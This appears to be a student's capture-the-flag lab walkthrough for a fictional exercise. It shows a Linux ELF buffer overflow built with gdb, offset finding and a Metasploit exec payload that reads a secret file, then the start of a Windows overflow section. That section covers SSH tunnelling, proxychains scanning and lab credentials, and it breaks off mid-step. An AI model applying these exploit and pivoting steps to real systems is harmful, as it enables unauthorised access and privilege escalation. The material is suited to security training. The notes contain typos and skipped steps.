 ### Exploit Development ###

##### ELF Exploit #####

1. Situation: Other teams have extracted this networked binary from a Donovian development network. It is believed to closely related to software running in both the Donovian and Gorgan internal networks. Discover vulnerabilities and create a reliable exploit to gain remote access. This will enable exploitation against Donovian targets and provide the basis for developing mitigations on friendly Gorgan networks. You will be required to exfil a copy from the target to your Op Station.

2. Provided: Executable Package: inventory.exe Task: Perform a local buffer overflow on the vulnerable Linux executable, in order to gain access to the desired intel. Method: Utilize RE toolset and python to launch and develop exploit.

3. ASLR is disabled on the target machine.

4. Exploit this binary found on 192.168.28.111 at /.hidden/inventory.exe to escalate privileges from your pivot user to root.

5. Enter the contents of /.secret/.verysecret.pdb as the flag

Step 1: Download inventory.exe on your local computer and scp to ops-station

Cd /Downlonads Scp inventory.exe student@10.50.40.109: ~ ##saves to hoe dorecrory

Step 2: go to OPs station and change the file settings

![Alt Text](exploit_development_images/image_1.png)

Step 4: run the file in gdb

Gdb ./inventory.exe

Run

![Alt Text](exploit_development_images/image_2.png)

Here, we can see EIP is at EIP: 0x41414141 ('AAAA')

Step 5: Pattern generator

![Alt Text](exploit_development_images/image_3.png)

Copy the string go to gdb --- run ----paste the string as input

Now, EIP changes to EIP: 0x63413563 ('c5Ac')

Find the offset:

![Alt Text](exploit_development_images/image_4.png)

Step 5: Create a python script

Nano elf1.py

#!/user/bin/env python

buffer = "A"*76

eip = "BBBB"

print (buffer + eip)

Save the script

Step 6: run the script on gdb

gdb-peda$ run <<< $(python elf1.py)

![Alt Text](exploit_development_images/image_5.png)

Step 7: run info proc map

![Alt Text](exploit_development_images/image_6.png)

Step 10: go to metasploit.

Pay load stays the same: use payload/linux/x86/exec

set CMD "cat /.secret/.verysecret.pdb" #this is saying hey run this cat command on this file

Copy the buff to python

Step 11: ssh to jumpbox(grey host) Ssh student@10.50.33.231

password

Ssh To T1

Ssh comrade@192.118.28.111 -p 2222

StudentWebExploitPassword

Step 12: verify the file is there and run it

comrade@web:~$ /.hidden/inventory.exe

Step 12: open the new nano file elf1.py

Nano elf1.py

Step 13: run the inventory.exe on lin-ops station

student@lin-ops:~$ env - gdb ./inventory.exe

Show environment

![Alt Text](exploit_development_images/image_7.png)

And run find /b 0xf7de2000,0xf7ffe000,0xff,0xe4

Grab top 3 addreses:

![Alt Text](exploit_development_images/image_8.png)

### Windows Buffer Overflow ###

Situation: Other teams have identified a networked binary from a Donovian development network, a copy is located with the /longTermStorage on the Donovian Webserver. It is common software for the region and is believed to be running in both the Donovian and Gorgan internal networks. Discover vulnerabilities and create a reliable exploit to gain remote access. This will enable remote exploitation against Donovian targets and provide the basis for developing mitigations on friendly Gorgan networks.

Provided: Executable Package: SecureServerind.exe & essfunc.dll Task: Perform a remote buffer overflow on the vulnerable Windows executable from your Linux_analyst box. Gain a shell using exploit code Method: Utilize RE toolset and python to launch and develop exploit.

Launch your remote exploit at the Donovian Windows target on 192.168.150.245 to gain initial access. Your flag is within the public documents .

Scheme of Maneuver:

>internet_grey_host

->T1: 192.168.28.111

->T2: 192.168.28.105

>internet_grey_host

->donovian_grey_host

-->T3: 192.168.150.245

Target Section:

T1

Hostname: Donovian_Webserver

IP: 192.168.28.111

OS: CentOS

Creds: comrade :: StudentWebExploitPassword

Last Known SSH Port: 2222

Action: Exploit binary.

T2

Hostname: Donovian-Terminal

IP: 192.168.28.105

OS: unknown

Creds: comrade :: StudentReconPassword

Last Known SSH Port: 2222

T3

Hostname: unknown

IP: 192.168.150.245

OS: unknown

Creds:unknown

Last Known SSH Port: unknown

PSP: Unknown

Malware: Unknown

Action: Exploit a network service on the machine

-L

Step 1: Create a local Tunnel from lin-ops to Pivot (192.168.28.105) student@lin-ops:~$ ssh student@10.50.33.231 -L 50511:192.168.28.105:2222 -NT

Step 2: Create a Dynamic to Pivot

student@lin-ops:~$ ssh comrade@localhost -p 50511 -D 9050 –NT

Step 3: Scan the target T1 for open ports

student@lin-ops:~$ proxychains nmap -Pn 192.168.28.111 -p 1-5000

Step 4: Create a tunnel from lin-ops to T1

student@lin-ops:~$ ssh comrade@localhost -p 50511 -L 50522:192.168.28.27:22 -NT

Step 5: ssh to T1

student@lin-ops:~$ ssh comrade@localhost -p 50522

Step 6: Go to cd `printf "/var/tmp\n/tmp\n"|sort -R | head -n 1`;ls

![Alt Text](exploit_development_images/image_9.png)

Step 7: Here we are not able to read the files above. But the current user comrade@lin2 has “.” on directory which makes any script we put on that directory executable